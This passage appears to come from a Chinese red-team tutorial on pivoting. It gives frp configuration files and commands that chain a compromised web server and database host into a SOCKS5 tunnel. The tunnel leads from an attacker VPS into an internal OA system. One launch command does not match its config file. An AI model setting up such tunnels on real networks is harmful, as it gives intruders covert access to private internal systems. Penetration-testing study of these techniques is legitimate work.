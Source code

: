 **客服端**

在web服务器上添加frpc.ini的配置，这里需要注意不能添加socks5插件。

```
[common]
server_addr = vps-ip
server_port = 7000
token = shadowtest
	
[vps]
type = tcp
remote_port = 4445	#映射到vps的端口
local_port = 4445		#数据库系统要连接的端口
use_encryption = true
```

执行

```
./frps -c ./frps.ini
```



### 数据库系统配置

在数据库上添加frpc.ini的配置，这里需要socks5插件。这里frp客户端将数据库的socks流量映射到web服务器的4445端口，web服务器监听4445的流量并将流量转发到vps的4445端口，所以web服务器和数据库机器都成了跳板机，打通了黑客与oa系统的隧道。

```
[common]
server_addr = WebServer-ip
server_port = 7000
token = shadowtest #密码
	
[webserver]
type = tcp
plugin = socks5
remote_port = 4445
use_encryption = true #是否加密
```

执行

```
./frpc -c ./frpc.ini
```

我们还是配置黑客本地代理为vps-ip:4445

在浏览器输入oa系统的ip地址：10.37.133.4

成功访问到oa系统的http服务：

<img src="../../../note/red/pictures/image-20201022100803364.png" alt="image-20201022100803364" style="zoom: 33%;" /> 


